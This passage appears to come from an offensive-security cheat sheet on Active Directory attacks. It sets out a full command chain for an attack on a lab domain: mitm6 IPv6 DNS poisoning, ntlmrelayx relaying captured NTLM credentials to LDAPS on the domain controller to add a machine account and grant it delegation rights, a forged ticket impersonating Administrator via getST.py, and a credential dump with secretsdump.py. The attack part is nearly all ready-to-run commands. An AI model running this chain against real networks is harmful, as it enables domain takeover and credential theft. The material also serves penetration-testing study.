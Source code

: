 > ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

```powershell
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -hw ws02 -d lab.local --ignore-nofqnd
# -d: the domain name that we filter our request on (the attacked domain)
# -i: the interface we have mitm6 listen on for events
# -hw: host whitelist

ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad
ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer
# -ip: the interface you want the relay to run on
# -wh: WPAD host, specifying your wpad file to serve
# -t: the target where you want to relay to

# now granting delegation rights and then do a RBCD
ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator  
export KRB5CCNAME=administrator.ccache  
secretsdump.py -k -no-pass target.lab.local  
```

#### Relaying with WebDav Trick

